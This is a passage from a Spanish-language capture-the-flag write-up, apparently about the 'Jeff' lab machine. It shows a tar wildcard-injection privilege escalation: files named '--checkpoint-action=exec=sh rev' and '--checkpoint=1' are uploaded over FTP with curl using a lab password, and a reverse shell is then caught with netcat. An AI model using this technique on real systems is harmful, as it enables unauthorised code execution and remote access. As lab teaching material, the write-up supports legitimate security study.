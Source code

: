 ```bash
www-data@Jeff:/tmp/priv$ curl -s -T "--checkpoint-action=exec=sh rev" -P- 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/files/'
www-data@Jeff:/tmp/priv$ curl -s -T "--checkpoint=1" -P- 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/files/'
www-data@Jeff:/tmp/priv$ curl -s -T "rev" -P- 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/files/'
```
Podemos comprobar que los archivos se subieron al servidor.
```bash
www-data@Jeff:/tmp/priv$ curl -s -v -P- 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/files/'
* Expire in 0 ms for 6 (transfer 0x563bdf07ef50)
*   Trying 172.20.0.1...
* TCP_NODELAY set
* Expire in 200 ms for 4 (transfer 0x563bdf07ef50)
* Connected to 172.20.0.1 (172.20.0.1) port 21 (#0)
< 220 Welcome to Jeff's FTP service.
> USER backupmgr
< 331 Please specify the password.
> PASS SuperS1ckP4ssw0rd123!
< 230 Login successful.
> PWD
< 257 "/" is the current directory
* Entry path is '/'
> CWD files
* ftp_perform ends with SECONDARY: 0
< 250 Directory successfully changed.
> EPRT |1|172.20.0.6|45951|
< 200 EPRT command successful. Consider using EPSV.
* Connect data stream actively
> TYPE A
< 200 Switching to ASCII mode.
> LIST
< 150 Here comes the directory listing.
* Maxdownload = -1
* Preparing for accepting server on data port
* Checking for server connect
* Ready to accept data connection from server
* Connection accepted from server
-rwxr-xr-x    1 1001     1001            1 May 06 00:15 --checkpoint-action=exec=sh rev
-rwxr-xr-x    1 1001     1001            1 May 06 00:16 --checkpoint=1
-rwxr-xr-x    1 1001     1001           64 May 06 00:16 rev
* Remembering we are in dir "files/"
< 226 Directory send OK.
* Connection #0 to host 172.20.0.1 left intact
www-data@Jeff:/tmp/priv$ 
```
Y vemos Que se subieron correctamente, despues de unos segundos nos llega la revershell.
```bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.47.45] from (UNKNOWN) [10.10.2.203] 53572
bash: cannot set terminal process group (2581): Inappropriate ioctl for device
bash: no job control in this shell
backupmgr@tryharder:~/.ftp/files$ whoami
whoami
backupmgr
backupmgr@tryharder:~/.ftp/files$ 
```
Esta ves ganamos acceso a la maquina victima.
```bash
backupmgr@tryharder:~$ hostname -I
10.10.2.203 172.17.0.1 172.20.0.1 
backupmgr@tryharder:~$ 
```